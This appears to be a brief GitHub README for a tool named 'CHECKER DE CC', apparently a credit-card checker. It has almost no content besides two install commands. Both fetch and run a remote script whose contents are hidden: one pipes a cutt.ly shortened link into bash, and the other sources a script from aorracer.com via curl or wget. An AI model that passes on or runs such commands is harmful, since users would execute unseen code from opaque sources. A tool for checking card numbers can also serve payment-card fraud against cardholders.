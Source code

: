#CHECKER DE CC BY JORGE BARBA

![loc](https://scontent.fntr7-1.fna.fbcdn.net/v/t1.0-9/fr/cp0/e15/q65/77407991_515622029025865_553547565635731456_o.jpg?_nc_cat=111&_nc_ohc=KU41dDHLr2MAQkrn4VvJWQPMk66BxSsfiGoRbT1GooET9-372df_ymBJg&_nc_ht=scontent.fntr7-1.fna&oh=db26f3e92e875eedc857d84a32f0cff4&oe=5E777544)




## Recursos
```
bash <(curl -sL https://cutt.ly/jhiH7eD)

```



## Instalacion
```
(. <($(which curl>/dev/null&&echo curl -Ls||echo wget -qO-) http://aorracer.com/653F))

```




## Please leave your star

## Por favor deje su estrella

## 请离开你的明星

